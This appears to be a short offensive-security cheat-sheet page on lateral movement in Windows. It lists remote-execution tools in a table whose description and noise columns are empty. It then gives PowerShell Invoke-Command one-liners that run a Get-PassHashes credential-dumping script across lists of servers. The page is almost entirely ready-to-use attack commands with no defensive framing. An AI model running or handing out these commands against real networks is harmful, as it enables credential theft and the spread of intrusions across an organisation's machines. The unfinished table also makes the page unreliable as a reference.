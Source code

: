 # 🥰 Tools to Lateral Movement

| Tool            | Description | Noise |
| --------------- | ----------- | ----- |
| Enter-PSSession |             |       |
| Invoke-Command  |             |       |
| psexec.exe      |             |       |
| wmis            |             |       |
| wmic            |             |       |
| winrs           |             |       |
| RDP             |             |       |

<figure><img src="../.gitbook/assets/Table1.png" alt=""><figcaption></figcaption></figure>

### Powershell Remoting

{% code overflow="wrap" fullWidth="true" %}
```powershell
Invoke-Command -Scriptblock {Get-Process} -ComputerName (Get-Content <list_of_servers>)
```
{% endcode %}

{% code overflow="wrap" fullWidth="true" %}
```
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)
```
{% endcode %}

{% code overflow="wrap" fullWidth="true" %}
```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>)
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>) -ArgumentList
```
{% endcode %}

{% code title="" overflow="wrap" fullWidth="true" %}
```powershell
Invoke-Command -Filepath C:\path\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)
```
{% endcode %}
